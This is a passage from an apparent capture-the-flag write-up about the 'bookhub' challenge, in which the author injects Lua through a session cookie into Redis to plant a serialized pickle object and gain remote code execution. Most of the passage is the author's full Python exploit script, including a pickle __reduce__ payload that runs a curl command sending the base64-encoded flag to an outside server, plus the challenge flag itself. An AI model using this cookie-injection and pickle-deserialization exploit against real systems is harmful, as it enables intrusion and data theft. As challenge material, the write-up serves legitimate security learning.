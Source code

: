 I wrote a quick script which changed my sessionID to valid lua, refreshed my CSRF token and then sent a POST request to "/admin/system/refresh_session/" endpoint (to store the code). 

My final payload was to do a `redis.call("SET", "bookhub:session:hacker", {pickle RCE code serialized})` and then send a GET request to "/login/" to make sure our serialized object is deserialized.

Here is my final script which sends the flag to my server (I used lua's string.char() function to send non readable bytes because URL encoding was fucking me over)

```python
import requests
from bs4 import BeautifulSoup
import pickle
import os
import sys
import base64

#rwctf{fl45k_1s_a_MAg1cal_fr4mew0rk_t0000000000}

COMMAND = '/usr/bin/curl -X POST "http://199.247.28.91/hacked" -d "$(/readflag|base64)"'

class PickleRce(object): #credits to https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
    def __reduce__(self):
        return (os.system,(COMMAND,))

hax = pickle.dumps(PickleRce())

ans = "string.char("
for char in hax:
	ans += "{},".format(ord(char))

ans = ans[:-1] + ")"

cmd = 'hacker"}} redis.call("SET", "bookhub:session:hacker", {hack})--'.format(hack=ans)
LOCAL = True

if LOCAL:
	CSRF = BeautifulSoup(requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://127.0.0.1:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':'hacker'})
else:
	CSRF = BeautifulSoup(requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://18.213.16.123:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':'hacker'})
	```
